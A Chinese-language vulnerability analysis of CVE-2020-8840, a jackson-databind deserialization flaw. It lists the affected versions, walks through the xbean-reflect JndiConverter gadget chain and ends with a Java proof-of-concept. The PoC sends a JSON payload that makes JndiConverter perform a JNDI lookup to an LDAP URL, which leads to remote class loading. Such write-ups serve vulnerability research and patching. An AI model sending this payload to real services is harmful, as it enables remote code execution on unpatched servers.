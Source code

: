 （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
============================================================

一、漏洞简介
------------

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

二、漏洞影响
------------

-   jackson-databind 2.0.0 -- 2.9.10.2

-   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson
    v1.2.62版本

三、复现过程
------------

可以在git提交记录中清楚看到利用的具体类

![](resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId24.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![](resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId25.png)

随后跟进`toObject()`函数

![](resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId26.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![](resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId27.png)

此时出现经典的JNDI注入，text
刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![](resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId28.png)

### poc

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String args[]) {
            ObjectMapper mapper = new ObjectMapper();

            mapper.enableDefaultTyping();

            String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

            try {
                mapper.readValue(json, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
